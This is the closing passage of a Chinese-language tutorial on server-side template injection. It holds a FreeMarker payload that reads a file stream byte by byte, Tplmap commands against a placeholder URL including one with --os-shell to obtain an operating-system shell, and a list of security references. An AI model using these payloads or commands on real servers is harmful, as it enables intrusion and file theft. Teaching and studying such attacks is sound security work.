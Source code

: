 ```HTML
FILE:[<#list 0..999999999 as _>
    <#assign byte=is.read()>
    <#if byte == -1>
        <#break>
    </#if>
${byte}, </#list>]

```





# 模板注入攻击工具

**Tqlmap**
Tplmap是一个python工具，可以通过使用沙箱转义技术找到代码注入和服务器端模板注入（SSTI）漏洞。该工具能够在许多模板引擎中利用SSTI来访问目标文件或操作系统。适用于有参数的注入
```txt
python tplmap.py -u http://xxxx/*     （无参数）
python tplmap.py -u http://xxxx?name=1 (有参数)
python tplmap.py -u url --os-shell   （获取shell）
```
## 3.7 Thymeleaf SSTI分析
https://www.anquanke.com/post/id/254519

# 参考
1、https://i.blackhat.com/USA-20/Wednesday/us-20-Munoz-Room-For-Escape-Scribbling-Outside-The-Lines-Of-Template-Security.pdf
2、https://portswigger.net/research/server-side-template-injection
3、https://blog.51cto.com/u_14299052/3104121
4、https://gosecure.github.io/template-injection-workshop/#0
5、https://xz.aliyun.com/t/7746 ----python的ssti注入方法
6、https://blog.csdn.net/solitudi/article/details/107752717 ssti 方法绕过
7、https://github.com/GoSecure/template-injection-workshop -----源码githuab 地址
8、https://www.anquanke.com/post/id/254519